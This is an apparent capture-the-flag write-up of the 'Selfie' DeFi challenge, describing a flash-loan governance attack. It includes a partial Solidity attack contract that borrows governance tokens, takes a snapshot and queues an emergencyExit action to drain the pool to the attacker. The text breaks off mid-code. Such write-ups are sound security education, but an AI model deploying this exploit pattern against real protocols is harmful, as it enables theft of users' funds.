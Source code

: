 First an action nees to be queued then exectued.  The action can only be queued if it has enough votes, and voting is done simply by holding the tokens.  The amount of tokens needed in this implementation is half of the total supply at the last snapshot.  The action can only be executed if it has never been executed begfore and enough time has passed, in this case two days. One more detail is the snapshots, these must be called on the token by token.snapshot(), however the snapshot trigger is public and 

An attack that we may be able to do is: use the flash lending pool to get enough tokens to vote for a action to pass.  Then wait for the specified time (2 days) and execute the action.  The Action will be send all 1.5m tokens to our address.  

What action can we call to get all the funds out?  There is an ```emergencyExit()``` function in ```SelfiePool``` and it can only be called by the governance contract, lucikly we have control of that.  This should give us all the pieces we need to craft an attack contract.  

A contract to do this is given below: 

```Java
contract SelfieAttacker is IERC3156FlashBorrower {
    SelfiePool immutable pool;
    SimpleGovernance immutable governance;
    ERC20Snapshot public immutable token;
    uint public actionID;
    address public immutable boss;

    constructor(address _flPoolAdd) {
        pool = SelfiePool(_flPoolAdd);
        governance = pool.governance();
        token = pool.token();
        boss = msg.sender;
    }

    function createAction() external {
        // take out flash loan
        address tokenAdd = address(pool.token());
        uint loanAmnt = pool.maxFlashLoan(tokenAdd);
        console.log("loanAmount: ", loanAmnt);

        // get the flash loan, when we receive it, it will be in: onFlashLoan() below.  
        pool.flashLoan(this, tokenAdd, loanAmnt, "");
    }

    function onFlashLoan(  // copied from OZ IERC3156FlashBorrower.sol abstract
        address initiator,
        address _tokenAdd,
        uint256 amount,
        uint256,
        bytes calldata
    ) external returns (bytes32) {
        require(_tokenAdd == address(token), "Not the same type of token");
        require(initiator == address(this), "this is not our request");

        console.log("loanAmount in onFlashLoan: ", amount);
        console.log("our balance: ", token.balanceOf(address(this)));

        // take a snapshot
        DamnValuableTokenSnapshot(governance.getGovernanceToken()).snapshot();

        // call queueAction()
        bytes memory command = abi.encodeWithSignature("emergencyExit(address)", boss);
        governance.queueAction(address(pool), 0, command);
        actionID = 1;

        // payback flash loan, you just need to approve it.  
        token.approve(msg.sender, amount);

```